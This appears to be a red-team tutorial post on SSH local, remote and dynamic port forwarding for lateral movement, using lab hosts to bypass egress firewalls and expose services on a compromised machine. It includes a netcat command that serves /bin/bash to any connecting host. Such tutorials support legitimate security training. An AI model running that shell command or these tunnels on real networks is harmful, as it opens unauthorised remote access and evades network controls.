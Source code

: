 ```yaml
---
layout: post
title: "ssh tunnelling port forwarding"
date: 2024-06-18
categories: lateral-movement
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /lateral-movement/
---
```


---
description: Exploring SSH tunneling
---

# SSH Tunnelling / Port Forwarding

## SSH: Local Port Forwarding

If you are on the network that restricts you from establishing certain connections to the outside world, local port forwarding allows you to bypass this limitation. \
\
For example, if you have a host that you want to access, but the egress firewall won't allow it, do this:

```csharp
ssh -L 127.0.0.1:9999:REMOTE_HOST:PORT user@SSH_SERVER
```

You can now sent traffic to 127.0.0.1:9999 on your localhost and that traffic will flow through the SSH\_SERVER to REMOTE\_HOST:PORT.&#x20;

Let's see with a real example.

#### On machine 10.0.0.5

```csharp
ssh -L9999:10.0.0.12:4444 root@10.0.0.12 -N -f
```

The above says: bind on a local port 9999 (on a host 10.0.0.5). Listen for any traffic coming to that port 9999 (i.e 127.0.0.1:9999 or 10.0.0.5:9999) and forward it all that to the port 4444 on host 10.0.0.12:

We can see that the 127.0.0.1:9999 is now indeed listening:

![](../../.gitbook/assets/ssh-local-bind.png)

#### On machine 10.0.0.12

Machine 10.0.0.12 is listening on port 4444 - it is ready to give a reverse shell to whoever joins:

![](../../.gitbook/assets/ssh-local-port-1.png)

#### On machine 10.0.0.5

Since the machine is listening on 127.0.0.1:9999, let's netcat it - this should give us a reverse shell from 10.0.0.12:4444:

![](../../.gitbook/assets/ssh-local-port-2.png)

The above indeed shows that we got a reverse shell from 10.0.0.12 and the local tunnel worked.

## SSH: Remote Port Forwarding

Remote port forwarding helps in situations when you have compromised a box that has a service running on a port bound to 127.0.0.1, but you want to access that service from outside. In other words, remote port forwarding exposes an obscured port (bound to localhost) so that it can be reached from outside through the SSH tunnel.

Pseudo syntax for creating remote port forwarding with ssh tunnels is:

```csharp
ssh -R 5555:LOCAL_HOST:4444 user@SSH_SERVER
```

The above suggests that any traffic sent to port 5555 on SSHSERVER will be forwarded to the port 4444 on the LOCALHOST - the host that runs the service that is only accessible from inside that host. In other words, service on port 4444 on LOCALHOST will now be exposed through the SSHSERVER's port 5555.

Let's see an example.

#### On machine 10.0.0.12

Let's create a reverse shell listener bound to 127.0.0.1 (not reachable to hosts from outside) on port 4444:

```csharp
nc -lp 4444 -s 127.0.0.1 -e /bin/bash & ss -lt
```

![](../../.gitbook/assets/ssh-remote-hidden.png)

Now, let's open a tunnel to 10.0.0.5 and create remote port forwarding by exposing the port 4444 for the host 10.0.0.5:

```csharp
ssh -R5555:localhost:4444 root@10.0.0.5 -fN
```

The above says: bind a port 5555 on 10.0.0.5 and make sure that any traffic sent to port 5555 on 10.0.0.5, gets forwarded to a service listening on localhost:4444 on to this box (10.0.0.12).

#### On machine 10.0.0.5

Indeed, we can see a port 5555 got opened up on 10.0.0.5 as part of the tunnel creation:

![](../../.gitbook/assets/ssh-remote-exposed.png)

Let's try sending some traffic to 127.0.0.1:5555 - this should give us a reverse shell from the 10.0.0.12:4444 - which it did:

![](../../.gitbook/assets/ssh-remote-shell.png)

## SSH: Dynamic Port Forwarding

Pseudo syntax for creating dynamic port forwarding:

```csharp
ssh -D 127.0.0.1:9090 user@SSH_SERVER
```

The above essentially means: bind port 9090 on localhost and any traffic that gets sent to this port, please relay it to the SSH\_SERVER - I trust it to make the connections for me.

For the demo, let's check what is our current IP before the dynamic port forwarding is set up:

![](../../.gitbook/assets/ssh-dynamic-port-forwarding-myip1.png)

Creating an ssh tunnel to 159.65.200.10 and binding port 9090 on the local machine 10.0.0.5:

```csharp
ssh -D9090 root@159.65.200.10
```

![](../../.gitbook/assets/ssh-dynamic-port-forwarding-create-tunel.png)

Checking network connections on the localhost 10.0.0.5, we can see that the port 9090 is now listening:

![](../../.gitbook/assets/ssh-dynamic-port-forwarding-port-listening.png)

This means that if we send any traffic to 127.0.0.1:9090, that traffic will be sent to the hosts on the other end of the ssh tunnel - 159.65.200.10 and then the host 159.65.200.10 will make connections to other hosts on behalf of the host 10.0.0.5. It will return any data it receives back to the originating host 10.0.0.5.

To test this, we can set our browser to use a socks5 proxy server 127.0.0.1:9090 like so:

![](../../.gitbook/assets/ssh-dynamic-port-forwarding-configure-browser.png)

If we check what our IP is again, it is obvious that we are now indeed masquerading the internet as 159.65.200.10:

![](../../.gitbook/assets/ssh-dynamic-port-forwarding-myip2.png)

{% hint style="info" %}
Dynamic port forwarding plays along nicely with ProxyChains.
{% endhint %}

## References

{% embed url="https://blog.trackets.com/2014/05/17/ssh-tunnel-local-and-remote-port-forwarding-explained-with-examples.html" %}
@spotheplanet
